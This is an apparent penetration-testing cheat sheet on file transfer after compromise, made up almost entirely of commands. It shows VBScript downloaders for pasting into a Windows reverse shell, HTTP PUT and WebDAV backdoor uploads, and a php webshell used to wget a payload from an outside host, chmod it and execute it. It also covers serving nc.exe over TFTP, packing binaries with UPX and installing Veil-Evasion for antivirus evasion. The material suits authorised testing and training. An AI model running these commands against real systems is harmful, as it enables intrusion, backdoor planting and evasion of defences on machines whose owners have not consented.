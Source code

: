 # File Transfers

## Simple Local Web Servers

- Run a basic http server, great for serving up shells etc

```ShellSession
python -m SimpleHTTPServer 80
```

- Run a basic Python3 http server, great for serving up shells etc

```ShellSession
python3 -m http.server
```

- Run a ruby webrick basic http server

```ShellSession
ruby -r webrick -e "s = WEBrick::HTTPServer.new(:Port => 8000, :DocumentRoot => Dir.pwd); trap('INT') { s.shutdown }; s.start"
```

- Run a basic PHP http server

```ShellSession
php -S $ip:80
```

- Creating a wget VB Script on Windows:

copy this script on a windows computer to install wget in visualbasic scripting language

dont forget to start the apache2 server attack

```ShellSession
service apache2 start
```

```ShellSession
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

to use simply type

```ShellSession
cscript wget.vbs http://192.168.14.220/evidence.txt evidence.txt
```

- Windows file transfer script that can be pasted to the command line.

File transfers to a Windows machine can be tricky without a Meterpreter shell.

The following script can be copied and pasted into a basic windows reverse and used to transfer files from a web server (the timeout 1 commands are required after each new line):

```ShellSession
 echo Set args = Wscript.Arguments  >> webdl.vbs
 timeout 1
 echo Url = "http://1.1.1.1/windows-privesc-check2.exe"  >> webdl.vbs
 timeout 1
 echo dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")  >> webdl.vbs
 timeout 1
 echo dim bStrm: Set bStrm = createobject("Adodb.Stream")  >> webdl.vbs
 timeout 1
 echo xHttp.Open "GET", Url, False  >> webdl.vbs
 timeout 1
 echo xHttp.Send  >> webdl.vbs
 timeout 1
 echo with bStrm      >> webdl.vbs
 timeout 1
 echo 	.type = 1 '      >> webdl.vbs
 timeout 1
 echo 	.open      >> webdl.vbs
 timeout 1
 echo 	.write xHttp.responseBody      >> webdl.vbs
 timeout 1
 echo 	.savetofile "C:\temp\windows-privesc-check2.exe", 2 '  >> webdl.vbs
 timeout 1
 echo end with >> webdl.vbs
 timeout 1
 echo
```

The file can be run using the following syntax:

```ShellSession
C:\temp\cscript.exe webdl.vbs
```

Mounting File Shares

- Mount NFS share to /mnt/nfs

```ShellSession
mount $ip:/vol/share /mnt/nfs
```

- HTTP Put

```ShellSession
nmap -p80 $ip --script http-put --script-args
http-put.url='/test/sicpwn.php',http-put.file='/var/[www/html/sicpwn.php](http://www/html/sicpwn.php)
```

## Uploading Files

- SCP

```ShellSession
scp username1@source_host:directory1/filename1 username2@destination_host:directory2/filename2
scp localfile username@$ip:~/Folder/
scp Linux_Exploit_Suggester.pl bob@192.168.1.10:~
```

## Webdav with Davtest

Some sysadmins are kind enough to enable the PUT method - This tool will auto upload a backdoor

```ShellSession
davtest -move -sendbd auto -url http://$ip

<https://github.com/cldrn/davtest>
```

- You can also upload a file using the PUT method with the curl command:

```ShellSession
curl -T 'leetshellz.txt' 'http://$ip'
```

And rename it to an executable file using the MOVE method with the curl command:

```ShellSession
curl -X MOVE --header 'Destination:http://$ip/leetshellz.php' 'http://$ip/leetshellz.txt'
```

- Upload shell using limited php shell cmd.

Use the webshell to download and execute the meterpreter

```ShellSession
[curl -s --data "cmd=wget http://174.0.42.42:8000/dhn -O /tmp/evil" http://$ip/files/sh.php
[curl -s --data "cmd=chmod 777 /tmp/evil" http://$ip/files/sh.php
curl -s --data "cmd=bash -c /tmp/evil" http://$ip/files/sh.php
```

- TFTP

```ShellSession
mkdir /tftp
atftpd --daemon --port 69 /tftp
cp /usr/share/windows-binaries/nc.exe /tftp/
EX. FROM WINDOWS HOST:
C:\Users\Offsec>tftp -i $ip get nc.exe
```

- FTP

```ShellSession
apt-get update && apt-get install pure-ftpd

#!/bin/bash
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/

/etc/init.d/pure-ftpd restart
```

## Packing Files

- Ultimate Packer for eXecutables

```ShellSession
upx -9 nc.exe
```

- exe2bat - Converts EXE to a text file that can be copied and pasted

```ShellSession
locate exe2bat
wine exe2bat.exe nc.exe nc.txt
```

- Veil - Evasion Framework https://github.com/Veil-Framework/Veil-Evasion

```ShellSession
apt-get -y install git
git clone https://github.com/Veil-Framework/Veil-Evasion.git
cd Veil-Evasion/
cd setup
setup.sh -c
```
